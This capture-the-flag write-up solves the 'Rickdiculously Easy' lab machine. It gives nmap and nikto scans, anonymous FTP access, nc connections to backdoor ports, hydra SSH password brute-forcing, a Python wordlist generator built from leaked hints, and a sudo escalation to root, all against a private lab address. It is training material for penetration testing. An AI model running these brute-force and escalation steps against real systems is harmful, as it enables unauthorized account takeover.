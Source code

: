 # Rickdiculously Easy

## Port Scanning

The box was up and running, all I needed was an IP address.

```
root@kali:~# netdiscover -r 192.168.43.0/24
```

Then, I moved onto our beloved port scanning phrase with Nmap:

```
root@kali:~# nmap -v -sS -O -A -p- 192.168.43.27
---snip---
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              42 Aug 22 05:10 FLAG.txt
|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.43.125
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh?
| fingerprint-strings: 
|   NULL: 
|_    Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic x86_64)
80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.27 (Fedora)
|_http-title: Morty's Website
9090/tcp  open  http    Cockpit web service
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Did not follow redirect to https://192.168.43.27:9090/
13337/tcp open  unknown
| fingerprint-strings: 
|   NULL: 
|_    FLAG:{TheyFoundMyBackDoorMorty}-10Points
22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 b4:11:56:7f:c0:36:96:7c:d0:99:dd:53:95:22:97:4f (RSA)
|   256 20:67:ed:d9:39:88:f9:ed:0d:af:8c:8e:8a:45:6e:0e (ECDSA)
|_  256 a6:84:fa:0f:df:e0:dc:e2:9a:2d:e7:13:3c:e7:50:a9 (EdDSA)
60000/tcp open  unknown
|_drda-info: ERROR
| fingerprint-strings: 
|   NULL, ibm-db2: 
|_    Welcome to Ricks half baked reverse shell...
---snip---
```

The first open port is FTP, which allowed anonymous login and the first flag was already visible.

> First Flag: FLAG{Whoa this is unexpected} — 10 Points

Indeed, this was way too easy. At this point, I couldn’t make use of the SSH service and I moved on to port 80. Nikto is the first tool, which comes to my mind when I see a web server.

```

root@kali:~# nikto -h 192.168.43.27
---snip---
+ OSVDB-3268: /passwords/: Directory indexing found.
+ OSVDB-3092: /passwords/: This might be interesting...
---snip---
```

Another flag in the bag.

> Second Flag: FLAG{Yeah d- just don’t do it.} — 10 Points

I inspected the HTML file and there was a password comment: winter

I ran Nikto on port 9090, but the result was flooded with a large number of false-positives. I went to visit this login page and the flag was right in front of me.

> Third Flag: FLAG {There is no Zeus, in your face!} — 10 Points

## The Rabbit Hole

Well, this login page…To be honest, I really thought that this must be a way in. I didn’t even consider the possibility of a rabbit hole. There were some hidden HTML element and those raised my suspicion even more. I spent hours, even days figuring out what did I miss. My problem was, I forgot about the other ports and opportunities…. Anyways, let’s continue.
The next port is 13337. After the connection established, a “welcome” flag presented itself.

```
root@kali:~# nc 192.168.43.27 13337
```

> Fourth Flag: FLAG:{TheyFoundMyBackDoorMorty}-10Points

I skipped the SSH again on port 22222. I was curious for port 60000.

```
root@kali:~# nc 192.168.43.27 60000
```

It’s a reverse shell and yet another flag. Like a piece of cake, right?

> Fifth Flag: FLAG{Flip the pickle Morty!} — 10 Points

I was stuck again, but out of the blue, I had an idea. What about the robots.txt? It turned out, it was a jackpot.

```
They're Robots Morty! It's ok to shoot them! 
They're just Robots!/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
```

It made me sad that the root shell is under construction. On the other hand, the tracertool worked like charm. I mean, sweet command injection!
At this point, I had 3 users and a password. I let hydra determine, whose password this is. SSH was unsuccessful on port 22, however on 22222...

```
root@kali:~# hydra -L users.txt -p winter ssh://192.168.43.27:22222
---snip---
[DATA] attacking ssh://192.168.43.27:22222/
[22222][ssh] host: 192.168.43.27   login: Summer   password: winter
1 of 1 target successfully completed, 1 valid password found
```

The next flag was in Summer’s home folder. By the way, I had to use the `less` and `more` commands everywhere, because the `cat` command has been replaced with a nice ascii cat banner.

> Sixth Flag: FLAG{Get off the high road Summer!} — 10 Points

I visited some promising directories (unsuccessfully) before I navigated to Morty's home folder. I found a `Safe_Password.jpg` and a password protected zipped text file. I couldn’t run strings on the jpg file, so I downloaded them to my machine.

```
root@kali:~/Downloads# strings Safe_Password.jpg | grep word
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek
```

The extracted `journal.txt` contained another flag.

> Seventh Flag: FLAG: {131333} — 20 Points

In RickSanchez’s home folder, there were 2 folders. The second one was named `ThisDoesntContainAnyFlags`, but I had to try. The creator didn’t lie, no flag was found. `RICKS_SAFE` folder was a place for an ELF executable.
I had to copy it to Summer’s home folder in order to execute it. The program needed command line arguments… I was struggling to come up with a good idea. Then, it hit me. Did you notice the difference between the other flags and the last flag? Yeah…

```
[Summer@localhost ~]$ ./safe 1313333
decrypt:  FLAG{And Awwwaaaaayyyy we Go!} - 20 PointsRicks password hints:
(This is incase I forget.. I just hope I don't forget how to write a script 
to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order1 uppercase character
1 digit
One of the words in my old bands name.
```

> Eighth Flag: FLAG{And Awwwaaaaayyyy we Go!} — 20 Points

Well, these are pretty clear instructions. I searched for that band and the first result was `The Flesh Curtains`. I have decided to write my own python script for generating passwords. Here is the result:

```python
#!/bin/python
import string
import os
import itertools

print "Generating passwords..."

uppercase_letters = list(string.ascii_uppercase)
digits = range(0, 9)
words = ["Flesh", "Curtains"]

# calculate the product of the provided values and store them in a list
combinations = list(itertools.product(uppercase_letters, digits, words))
    
file_name = 'passwords.txt'

# write passwords to the file
with open(file_name, "w") as file:
    for combination in combinations:
        file.write(str(combination[0]) + str(combination[1]) + str(combination[2]) + "\n")

# close the file
file.close()
print "Password list has been successfully generated!"
```

## The Final Stage

I had a password list and a username. That’s all I needed! SSH on port 22 was a dead end again, unlike port 22222.

```
root@kali:~# hydra -l RickSanchez -P passwords.lst ssh://192.168.43.27:22222
---snip---
[DATA] attacking ssh://192.168.43.27:22222/
[22222][ssh] host: 192.168.43.27   login: RickSanchez   password: P7Curtains
1 of 1 target successfully completed, 1 valid password found
---snip---
```

Just one thing left, I have to gain root access. It’s not that hard since our user (RickSanchez) can easily run `sudo su`. In the root user home directory, I found the final flag. Game over!

> Nineth Flag: FLAG: {Ionic Defibrillator} — 30 points


